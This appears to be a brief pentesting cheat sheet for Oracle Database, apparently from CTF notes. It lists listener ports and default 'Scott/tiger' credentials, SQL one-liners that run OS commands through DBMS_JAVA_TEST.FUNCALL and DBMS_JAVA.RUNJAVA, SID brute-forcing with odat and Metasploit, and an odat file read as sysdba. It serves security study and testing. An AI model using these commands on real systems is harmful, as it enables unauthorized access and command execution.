 # Oracle
Oracle database (Oracle DB) is a relational database management system (RDBMS) from the Oracle Corporation.

## Ports
```
1521 Default TCP Listener
1522–1529 Secondary Listeners
1748 TCP Listener
```


# Basic Credentials

```
Username:  Scott
Password:  tiger
```

# Command Execution

```sql
-- 10g R2, 11g R1 and R2: DBMS_JAVA_TEST.FUNCALL()
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','c:\\windows\\system32\\cmd.exe','/c', 'dir >c:\test.txt') FROM DUAL

SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/bin/ls>/tmp/OUT2.LST') from dual

-- 11g R1 and R2: DBMS_JAVA.RUNJAVA()
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper /bin/bash -c /bin/ls>/tmp/OUT.LST') FROM DUAL
```


# Possible Attacks
## Brute-force SID
1. You will need: `odat` and its `sidguesser` to bruteforce with a link provided
2. Use [Metasploit](https://www.metasploit.com/) with `auxiliary(admin/oracle/sid_brute)`
3. Use `sqlplus` to login with the creds or
	1. Read file with odat:
```sh
odat ctxsys -s <ip> -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt
```


# References
- [https://book.hacktricks.wiki/en/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener.html](https://book.hacktricks.wiki/en/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener.html)
- [Brute-Force SID - https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)
- [https://secybr.com/posts/oracle-pentesting-best-practices/](https://secybr.com/posts/oracle-pentesting-best-practices/)